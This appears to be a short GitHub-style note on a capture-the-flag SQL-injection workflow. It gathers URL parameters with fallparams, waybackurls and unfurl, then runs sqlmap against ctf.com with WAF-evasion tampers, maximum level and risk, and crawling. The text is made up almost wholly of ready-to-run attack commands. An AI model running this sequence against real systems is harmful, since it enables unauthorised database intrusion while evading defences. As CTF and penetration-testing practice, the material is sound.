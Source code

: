 # SQLMap Over Zero-Trust

These will be invaluable for our SQLMap scan.

command sequence incorporating everything:

1. Use `fallparams` to crawl the target URL and gather parameters:
   ```bash
   ./fallparams -u https://ctf.com/Search.aspx -crawl
   ```

2. Use `waybackurls` and `unfurl` to gather additional parameters:
   ```bash
   echo "ctf.com" | ./waybackurls | ./unfurl keys | tee way-unf.txt
   ```

3. Combine all parameter sources into a single, unique wordlist including the top-27 XSS parameters:
   ```bash
   cat parameters.txt top-27-xss-parameter.txt way-unf.txt | sort | uniq > params.txt
   ```

4. Run SQLMap with the generated wordlist and crawling enabled:
   ```bash
   sqlmap -u "https://ctf.com/Search.aspx?postback=true&more=false&jto=1&q=consultant&rad=5&where=dusseldofr&indid=37&indid=4" --technique=T --batch --delay=25 --time-sec=15 --random-agent --tamper=between --tamper=space2comment --proxy=http://127.0.0.1:8080 --level=5 --risk=3 --wordlist=params.txt --crawl=3
   ```

This comprehensive approach combines the strengths of parameter discovery tools with the thoroughness of SQLMap's scanning capabilities.

